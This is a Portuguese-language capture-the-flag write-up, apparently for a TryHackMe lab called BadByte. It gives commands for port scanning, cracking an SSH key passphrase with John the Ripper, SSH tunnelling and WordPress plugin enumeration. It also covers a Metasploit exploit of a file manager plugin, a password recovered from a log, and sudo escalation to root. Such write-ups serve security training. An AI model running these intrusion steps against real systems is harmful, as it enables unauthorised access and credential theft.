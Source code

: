 # BadByte

* ### Scan de portas - Verificando quais portas estão abertas.
```bash
rustscan -a 10.10.72.121
```
![image](https://github.com/lufffe/Writeups/assets/90646635/459d3e7b-22c3-4c92-8eb7-f4334626e01b)

![image](https://github.com/lufffe/Writeups/assets/90646635/3d1532ff-e7ae-4663-9452-502d3cd620ff)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 22,30024 10.10.72.121
```
![image](https://github.com/lufffe/Writeups/assets/90646635/0a4b391f-bb51-46e1-9ad9-16aa2fc66efc)

* ### Baixando os arquivos no FTP.
```bash
ftp 10.10.72.121 -p 30024
```
![image](https://github.com/lufffe/Writeups/assets/90646635/fc8aaff0-ea3c-4ac3-8045-5fd45e81e2f0)

* ### Descobrindo senha da chave SSh.
```bash
ssh2john id_rsa > hash.txt
```

```bash
john --wordlist=~/rockyou.txt hash.txt
```

```bash
kali@kali:/etc$ proxychains nmap -sT 127.0.0.1
```
|S-chain|-<>-127.0.0.1:1337-<><>-127.0.0.1:80-<><>-OK

```bash
sudo ssh -i id_rsa -L 80:127.0.0.1:80 errorcauser@10.10.72.121
```
![image](https://github.com/lufffe/Writeups/assets/90646635/a915b8b2-8858-44ef-bf8e-f8f453e3b841)

```bash
nmap -p 80 -vv --script http-wordpress-enum --script-args type="plugins",search-limit=1500 127.0.0.1
```
![image](https://github.com/lufffe/Writeups/assets/90646635/abad5b0a-5fb4-48a6-af11-355d0b501a0b)

* ### What is the CVE number for directory traversal vulnerability?
![image](https://github.com/lufffe/Writeups/assets/90646635/7c54fbea-fdc0-47cb-80f4-72b8ecd36a30)

* ### What is the CVE number for remote code execution vulnerability?
![image](https://github.com/lufffe/Writeups/assets/90646635/3710d11b-74a2-4053-946a-79a07ffb9c88)


* ### Metasploit
```Bash
msfconsole
```

```Bash
search wordpress file manager
```

```Bash
meterpreter > getuid
```
Server username: cth

* ### Flag User
```Bash
cat /home/cth/user.txt
```

```Bash
find / -type f -user cth -exec ls {} + 2>/dev/null
```
![image](https://github.com/lufffe/Writeups/assets/90646635/d7d1cc6a-b56d-4dc6-b63e-1d4764cf531c)

```Bash
cat /var/log/bash.log
```
![image](https://github.com/lufffe/Writeups/assets/90646635/4a4c4fbc-2d87-4437-8d83-018e993dfb45)

* ### Escalando Previlégio.
```
sudo -l
```
[sudo] password for cth: G00dP@$sw0rd2021

User cth may run the following commands on badbyte:
    (ALL : ALL) ALL

* ### Flag Root.
```Bash
sudo cat /root/root.txt
```

